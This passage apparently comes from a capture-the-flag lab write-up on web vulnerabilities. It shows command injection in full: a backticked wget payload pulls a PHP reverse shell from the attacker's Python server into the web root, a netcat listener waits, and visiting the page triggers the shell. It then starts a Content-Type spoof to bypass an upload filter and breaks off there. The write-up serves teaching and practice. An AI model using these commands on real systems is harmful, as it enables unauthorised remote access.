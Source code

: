 The server listens on port 8000 by default. On the Attack Box this port is already in use, so we'll use port 8001.

```bash
$ python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
```

We can then submit the following `wget` command to the input field, using the `-O` flag to save the output to a specific file:

```
`wget http://10.10.113.99:8001/php-reverse-shell.php -O /var/www/html/rev.php`
```

We can see the target machine makes a HTTP GET request to our machine:

![[Pasted image 20211121225817.png]]

Now, when we visit `/rev.php` in browser, the page 'hangs' while it attempts to load the file - this is usually a good sign, as it means some PHP code is running in the background:

![[Pasted image 20211121225903.png]]

Sure enough, when we check our listener we have a shell!

![[Pasted image 20211121225935.png]]

### Summary of Commands

- edit `/usr/share/webshells/php/php-reverse-shell.php` to include your IP and Port
- Start a Python server to serve `php-reverse-shell.php` with `cd /usr/share/webshells/php/; python3 -m http.server 8001`
- Submit the following command in the website to download your reverse shell to the machine: `` `wget http://10.10.113.99:8001/php-reverse-shell.php -O /var/www/html/rev.php` ``
- Start a listener with netcat to catch the shell: `nc -lnvp 413`
- Visit `http://TARGET_IP/rev.php` to trigger the shell, and enjoy!

## File Upload

We can reuse the reverse shell file we just created for this vulnerability. Attempting to upload it directly fails:

![[Pasted image 20211121230551.png]]

Often, browsers indicate the type of content the user is sending with a header in the HTTP request, usually `Content-Type` - we can see it in the request using our Developer Tools:

![[Pasted image 20211121230646.png]]

We can Edit and Resend this request to see the type more clearly:

![[Pasted image 20211121230757.png]]

If we want to trick the website into thinking this is an image, we can try changing the header to `image/jpeg`:
